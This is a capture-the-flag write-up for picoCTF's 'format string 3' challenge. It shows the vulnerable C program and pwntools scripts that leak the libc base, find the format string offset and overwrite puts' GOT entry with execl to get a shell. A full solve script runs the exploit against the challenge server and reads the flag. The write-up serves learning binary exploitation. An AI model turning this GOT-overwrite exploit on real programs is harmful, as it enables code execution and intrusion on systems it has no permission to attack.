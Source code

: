# format string 3

This challenge from [picoCTF](https://play.picoctf.org/practice/challenge/449) asks us to exploit a format string.

Looking at the source code we can see that the adress of the `setvbuf` is leaked, from it we can calculate the base adress of our libc. We can alsso see that we can exploit our format string thanks to the `printf(buf);`

```c
#include <stdio.h>

#define MAX_STRINGS 32

char *normal_string = "/bin/sh";

void setup() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);
}

void hello() {
	puts("Howdy gamers!");
	printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf);
}

int main() {
	char *all_strings[MAX_STRINGS] = {NULL};
	char buf[1024] = {'\0'};

	setup();
	hello();	

	fgets(buf, 1024, stdin);	
	printf(buf);

	puts(normal_string);

	return 0;
}
```

First, let's calculate the `libc` base adress:

```py
from pwn import *

r = process("./format-string-3")
libc = ELF("./libc.so.6")
context.log_level = 'error'

r.recvuntil(b'libc: ')
setvbuf = int(r.recvline().split(b"x")[1].strip(),16)

libc.address = setvbuf - libc.symbols['setvbuf']
print("libc base address: %s", hex(libc.address))
```

Now we need to find our offset before crafting our payload:

```py
from pwn import *

def send_payload(payload):
    r = elf.process()
    r.sendline(payload)
    l = r.recvall()
    r.close()
    return l

context.log_level = 'error'
elf = context.binary = ELF('./format-string-3')

offset = FmtStr(send_payload).offset
print("offset =", offset)
```

```
❯ python3 offset.py
offset = 38
```

Then we can just craft our payload using [fmtstr](https://docs.pwntools.com/en/dev/fmtstr.html#module-pwnlib.fmtstr):

```py
elf = context.binary = ELF('./format-string-3')
payload = fmtstr_payload(38, {elf.got['puts'] : libc.symbols['execl']})
```

# Solve.py

```py
from pwn import *

libc = ELF("./libc.so.6")
context.log_level = 'error'
r = remote('rhea.picoctf.net', 62876)

r.recvuntil(b'libc: ')
setvbuf = int(r.recvline().split(b"x")[1].strip(),16)
libc.address = setvbuf - libc.symbols['setvbuf']

elf = context.binary = ELF('./format-string-3')
payload = fmtstr_payload(38, {elf.got['puts'] : libc.symbols['execl']})

r.sendline(payload)
r.sendline(b'cat flag.txt')
res = r.recvuntil(b'}')
print(res[res.find(b'picoCTF'):])
```